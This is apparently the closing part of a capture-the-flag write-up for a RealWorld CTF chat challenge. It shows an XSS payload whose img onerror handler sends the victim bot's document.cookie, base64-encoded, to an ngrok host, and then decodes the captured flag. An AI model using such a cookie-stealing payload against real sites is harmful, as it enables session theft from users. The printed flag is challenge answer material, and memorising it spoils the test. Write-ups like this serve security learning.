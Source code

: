 You "should" see that a new user has joined.  This will be the XSS Bot!

![image-20230112200315952](./assets/chatuwu-attack1.png)

From this page, quickly send the payload:

```
<img src=x onerror='fetch("http://e986-76-112-103-115.ngrok.io/data?prize="+btoa(document.cookie))'>
```

The XSS Bot should receive this and run our exfiltration script.

We can revisit our monitor page to see what happened.  Look for requests to `/data` from some IP address other than yours:

![image-20230112200718110](./assets/chatuwu-prize.png)

We got it!

Copy the `prize`  to the clipboard and let's decode it:

```
echo -n ZmxhZz1yd2N0ZnsxZTU0MmU2NWU4MjQwZjlkNjBhYjQxODYyNzc4YTFiNDA4ZDk3YWMyfQ== |base64 -D
flag=rwctf{1e542e65e8240f9d60ab41862778a1b408d97ac2}
```



Thanks to the RealWorld CTF organizers for a great challenge!
